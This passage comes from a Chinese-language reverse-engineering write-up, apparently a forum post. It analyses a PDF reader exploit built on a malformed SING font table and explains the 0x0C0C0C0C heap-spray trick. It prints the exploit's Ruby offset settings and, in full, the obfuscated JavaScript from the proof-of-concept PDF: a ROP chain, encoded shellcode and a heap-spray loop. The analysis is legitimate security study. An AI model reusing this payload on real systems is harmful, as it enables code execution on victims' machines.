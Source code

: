  

**_注：这里我想到了 CVE-2009-0927 这个漏洞，是否可以复制超长字符串引发异常，然后覆盖异常处理函数的方法，但是后来发现不行，因为第一个异常处理函数并没有被覆盖到。_**

 

然后现在的问题就在于是否一定要设置`6C`这个字符（根据上面的实验结果应该是不需要的），以及是否一定要设置在`0x24c`这个位置上。

 

因为之前已经确定了几个特殊位置，我决定把上面的那句代码修改为`sing[0x20c, 4] = [0x00].pack('V')`，经过测试仍然可以到达 payload 位置执行。

 

所以第五个特殊位置只是为了保证字符串有一个`\x00`的结尾（因为实验次数不多，而且没有看代码，这个结论不敢保证 100% 正确）：

```
# Without the following, sub_801ba57 returns 0.
sing[0x24c, 4] = [0x6c].pack('V')

```

4. 关于 payload 的一些思考
===================

4.1 javascript 代码与堆内存的构成
------------------------

### 4.1.1 0x0C0C0C0C 的秘密

我并没有想再完整的分析完 payload 的内容，但是在调试的过程中，确实存在一些问题想要弄清楚。

 

目前还没有看 poc 中 javascript 的代码是什么样子的，不过知道采用的仍旧是堆喷射的手法。在之前学习堆喷射的时候，了解到的是 javascipt 在堆中分配一大块内存，把 shellcode 放在里面，其余内存设置为`\x90`，然后在溢出时覆盖跳转地址为`0x0C0C0C0C`，这个地址一定在堆分配的地址中，这样经过了一段`nop`指令之后，一定会命中 shellcode。

 

可是在调试这个漏洞的时候，发现程序在到达`0x0C0C0C0C`之后，需要的数据刚好位于`0x0C0C0C0C`的位置，所以这里的 javascript 的代码肯定和我一开始想的不太一样

 

![](https://bbs.pediy.com/upload/attach/202107/600394_9Q9N4XEAZZDM62X.png)

 

从 PDF 中提取出来的 javascript 代码如下：

```
var PVtXNSbsBDH = unescape;
var EolKWFK = PVtXNSbsBDH( '%u4141%u4141%u63a5%u4a80%u0000%u4a8a%u2196%u4a80%u1f90%u4a80%u903c%u4a84%ub692%u4a80%u1064%u4a80%u22c8%u4a85%u0000%u1000%u0000%u0000%u0000%u0000%u0002%u0000%u0102%u0000%u0000%u0000%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0008%u0000%ua8a6%u4a80%u1f90%u4a80%u9038%u4a84%ub692%u4a80%u1064%u4a80%uffff%uffff%u0000%u0000%u0040%u0000%u0000%u0000%u0000%u0001%u0000%u0000%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0008%u0000%ua8a6%u4a80%u1f90%u4a80%u9030%u4a84%ub692%u4a80%u1064%u4a80%uffff%uffff%u0022%u0000%u0000%u0000%u0000%u0000%u0000%u0001%u63a5%u4a80%u0004%u4a8a%u2196%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0030%u0000%ua8a6%u4a80%u1f90%u4a80%u0004%u4a8a%ua7d8%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0020%u0000%ua8a6%u4a80%u63a5%u4a80%u1064%u4a80%uaedc%u4a80%u1f90%u4a80%u0034%u0000%ud585%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u000a%u0000%ua8a6%u4a80%u1f90%u4a80%u9170%u4a84%ub692%u4a80%uffff%uffff%uffff%uffff%uffff%uffff%u1000%u0000%ucfd9%u8dbf%uc68a%ud9b0%u2474%u58f4%uc929%u49b1%ue883%u31fc%u1578%u7803%u6f15%u3a7f%ue658%uc380%u9899%u2609%u8aa8%u226e%u1a99%u66e4%ud112%u92a8%u97a1%u9464%u1d02%u9b53%u9093%u775b%ub357%u8a27%u1384%u4519%u52d9%ub85e%u0612%ub637%ub681%u8a3c%ub719%u8092%ucf22%u5797%u65d6%u8799%uf247%u3fd1%u5ce3%u3ec2%ubf20%u083e%u0b4d%u8bb4%u4287%uba35%u08e7%u7208%u51ea%ub54c%u2415%uc5a6%u3ea8%ub77d%ucb76%u1f60%u6bfc%ua141%uedd1%uad02%u7a9e%ub24c%uaf21%ucee6%u4eaa%u4729%u74e8%u03ed%u15aa%ue9b4%u2a1d%u56a6%u8ec1%u75ac%ua816%u11ee%u86db%ue210%u9173%ud063%u09dc%u58ec%u9794%u9feb%u6f8f%u5e63%u8f30%ua5ad%udf64%u0cc5%ub405%ub015%u1ad0%u1e46%uda8b%ude36%ub27b%ud15c%ua2a4%u3b5e%u48cd%uaca4%u8cf8%u23a4%u8e95%u2aa8%u0739%u264e%u41d1%udfd8%uc848%u7e92%uc794%u41de%ueb1e%u0f1f%u86d7%uf833%udd17%uaf6e%uc828%u5005%uf6bd%u078f%uf429%u60f6%u07f6%ufadd%u9d3f%u949e%u713f%u651f%u1b16%u0d1f%u7fce%u284c%uaa11%ue1e0%u5484%u5551%u3c0e%u805f%ue378%ue7a0%ud878%uce76%u28fe%u22fd%u41c3' );
var JugRVXrvaQFK = PVtXNSbsBDH( "%" + "u" + "0" + "c" + "0" + "c" + "%u" + "0" + "c" + "0" + "c" );
while (JugRVXrvaQFK.length + 20 + 8 < 65536) JugRVXrvaQFK+=JugRVXrvaQFK;
dDBGklMTnOsBpfJUpAasbVQDSwFtDtFjORYFvWHwmdRCAJzEj = JugRVXrvaQFK.substring(0, (0x0c0c-0x24)/2);
dDBGklMTnOsBpfJUpAasbVQDSwFtDtFjORYFvWHwmdRCAJzEj += EolKWFK;
dDBGklMTnOsBpfJUpAasbVQDSwFtDtFjORYFvWHwmdRCAJzEj += JugRVXrvaQFK;
```